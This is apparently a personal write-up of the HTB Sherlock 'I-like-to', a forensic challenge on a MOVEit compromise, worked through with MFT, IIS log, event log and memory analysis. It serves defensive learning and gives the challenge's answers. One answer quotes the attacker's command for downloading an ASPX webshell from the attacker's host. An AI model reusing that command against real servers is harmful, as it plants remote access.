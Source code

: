 ```yaml
---
{"dg-publish":true,"permalink":"/i-like-to/"}
---
```


###### Summary: 

*I-like-to* is one of the first Sherlocks HTB has published. Despite being ranked as easy, it still provides a good learning value for a beginner. While working on this challenge, I have acquainted with MOVEit vulnerability, analysed KAPE artifacts, including MFT file, correlated data with raw hex, and answered relevant questions regarding the exploitation of the vulnerability.

###### Challenge scenario: 

"We have unfortunately been hiding under a rock and do not see the many news articles referencing the recent MOVEit CVE being exploited in the wild. We believe our Windows server may be vulnerable and has recently fallen victim to this compromise. We need to understand this exploit in a bit more detail and confirm the actions of the attacker & retrieve some details, so we can implement them into our SOC environment. We have provided you with a triage of all the necessary artefacts from our compromised Windows server. PS: One of the artifacts is a memory dump, but we forgot to include the vmss file. You might have to go back to basics here..."

###### Walkthrough:

1. *Name of the ASPX webshell uploaded by the attacker?*
	I parcelled MFT using MFTCmd and then opened it with TimeLine Explorer. The first question is to find ASPX web shell, I filtered files' extension to .aspx and the first file in the output had missing 0x30 ($Filename information) timestamp which indicates that it was likely uploaded from a different host. 
	
	Answer: move.aspx

2. *What was the attacker's IP address?*
	To find the attacker's IP address I had to find Microsoft Internet Information Service, open it with a text editor and find the uploaded file. Also, there are a lot of signs of network enumeration conducted by the threat actor. 
	
	It's worth noting that I've tried to find the IP address initially by multiplying the file's entry number by 1024 and converting it to hex, then looking for this offset number in the MFT hex dump (using HxD). Also, by running `Get-Item (file path) -Stream *` and `Get-Content`. Yet this method is more suitable for analysing Zone.Identifier data. 
	
	Answer: 10.255.254.3

3. *What user agent was used to perform the initial attack?*
	I continued investigating IIS logs and indicators of compromise for the exploit. I found one of them (machine2.aspx) in the logs and User Agent in the lines below. 
	
	Answer: Ruby

4. *When was the ASPX webshell uploaded by the attacker?*
	Using Timeline Explorer, I returned to the first file I had found, looked at its entry number and investigated its timestamps using MFTECmd (particular attention to $FILE_NAME or 0x30 information) to identify the time when the script was uploaded.
	
	Answer: 12/07/2023 11:24:30
	
	`.\MFTECmd -f 'C:\Users\glebas\Desktop\$MFT' --de 1293` ![Pasted image 20250210105019.png](/img/user/Pasted%20Images/Pasted%20image%2020250210105019.png)

5. *The attacker uploaded an ASP webshell which didn't work, what is its filesize in bytes?*
	Filtered MFT entries to display the same day when 'move.aspx' was uploaded. The next entry is another malicious file 'moveit.asp' and it has file size specified in the entry.
	
	Answer: 1362

6. *Which tool did the attacker use to initially enumerate the vulnerable server?*
	Numerous attempts of port enumeration using nmap can be seen in IIS and DMZ_FTP log files
	
	Answer: nmap

7. *We suspect the attacker may have changed the password for our service account. Please confirm the time this occurred (UTC)*
	Using EvtxECmd I converted directory with Windows event logs (included logs IDs related to password change 4723, 4724... etc) into a CSV file, opened it with Timeline Explorer and found there service account password attempt with ID 4724.
	
	Answer: 12/07/2023 11:09:27

8. *Which protocol did the attacker utilize to remote into the compromised machine?*
	To identify internet protocol the adversary used to connect, I had to re-process evtx logs once again including all the events this time (with the thought of the future usage). Then, I filtered events 4624 that identify successful connections and using logon type 10 is typically mark of RDP connection.
	
	Answer: RDP

9. *Please confirm the date and time the attacker remotely accessed the compromised machine*
	Timestamp can be found in previous question.
	
	Answer: 12/07/2023 11:11:18

10. *What was the useragent that the attacker used to access the webshell?*
	The user agent can be found in IIS logs, in particular near malicious files with GET or POST requests.
	
	Answer: Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0

11. *What is the inst ID of the attacker?*
    I installed MySQL server and workbench to analyse moveit.sql file and found the ID among the entries. You shall look for attacker's nickname.
    
    Answer: 1234

12. What command was run by the attacker to retrieve the webshell?
	Answer: wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx

13. *What was the string within the title header of the webshell deployed by the TA?*
	To find a header I used command `strings "C:\Users\glebas\Desktop\I-like-to-27a787c5.vmem" | Select-String "move.aspx" -Context 20, 20` -- it allows to see 20 lines above and below from the target line (move.aspx) in this case.
	
	Answer: awen asp.net webshell

14. *What did the TA change the our moveitsvc account password to?*
	I found new password by conducting strings analysis of vmem file and with the search for "net user 'moveitsvc" because password follows it
	
	Answer: 5trongP4ssw0rd


